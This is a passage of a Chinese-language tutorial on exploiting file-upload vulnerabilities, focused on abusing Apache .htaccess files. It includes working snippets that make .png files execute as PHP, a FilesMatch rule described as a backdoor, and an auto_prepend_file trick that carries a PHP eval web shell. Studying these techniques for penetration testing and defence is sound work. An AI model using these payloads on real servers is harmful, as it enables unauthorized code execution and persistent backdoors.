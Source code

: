 ### 2. 上传至其他目录

用户正常文件上传的目录可能具有严格的限制，而其他目录则没有，我们可以将文件上传到其他目录上，服务器可能执行我们上传的脚本

### 3. 黑名单

服务器可能会将具有潜在威胁的文件扩展名列入黑名单，这时候我们可以通过测试来找到一些替代的文件扩展名来绕过黑名单限制

### 4. 覆盖服务器配置

服务器通常不会执行文件，除非将他们配置为执行文件，我们可以对配置文件修改，来实现对文件的执行

#### 1. .htaccess

> htaccess文件(或者"分布式配置文件"）提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
>
> 概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
>
> 启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。
>
> 笼统地说，.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能

一般`.htaccess`可以用来留后门和针对黑名单绕过。在上传网站的根目录下，上传一个`.htaccess`文件即可。

绕过方法：

> *   针对黑名单绕过
>
>     创建一个txt文件，写入
>
>     ```shell
>     AddType  application/x-httpd-php    .png
>     ```
>
>     另存为 `.htaccess` 名称，保存类型为所有文件，即可将`png`文件解析为`php`文件。
> *   留后门
>
>     在`.htaccess` 内写入`php`解析规则，类似于把文件名包含`s`的解析成`php`文件
>
>     ```shell
>     FilesMatch "s">
>     SetHandler application/x-httpd-php
>     </FilesMatch>
>     ```
> *   利用.htaccess进行文件包含
>
>     ```shell
>     php_value auto_prepend_file ".htaccess"
>     #<?php eval($_POST[cmd]);?>
>     ```
> * 使用#注释使得.htaccess能够成功解析
